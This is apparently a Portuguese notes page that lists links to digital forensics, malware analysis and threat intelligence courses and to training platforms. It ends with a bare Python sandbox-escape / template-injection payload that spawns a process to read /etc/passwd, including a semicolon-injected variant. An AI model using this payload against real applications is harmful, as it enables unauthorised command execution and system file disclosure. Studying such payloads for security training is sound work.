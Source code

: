 
xpsec - https://xpsec.academy/

https://www.linkedin.com/feed/update/urn:li:activity:7097268027980754946/

## Cursos

Mobile Forensics Starter: [https://lnkd.in/dj6ZziFu](https://lnkd.in/dj6ZziFu)


Auditoria de T.I na Prática: [https://lnkd.in/d-9AnJiZ](https://lnkd.in/d-9AnJiZ)

Perito Forense Digital: [https://lnkd.in/d27gG87G](https://lnkd.in/d27gG87G)

Análise de Malware Starter: [https://lnkd.in/ddBcnBPi](https://lnkd.in/ddBcnBPi)
  
Threat Intelligence Starter: [https://lnkd.in/dFGh-Ja6](https://lnkd.in/dFGh-Ja6)

Defender Contra Ameaças Online: [https://lnkd.in/dxPsFSp3](https://lnkd.in/dxPsFSp3)

## Plataformas de cursos

https://rha.ole.redhat.com/rha/app/summary

https://saladeaula.nic.br/dashboard

https://cursoseventos.nic.br/users/turmas/callback/54


https://cursoseventos.nic.br/cursos/

https://guiadeti.com.br/curso-gratuito-ccnav7-cerificacao-cisco-ccna/#aulas-praticas-e-flexibilidade








`().__class__.__bases__[0].__subclasses__()[156]('cat /etc/passwd',';cat /etc/passwd')`
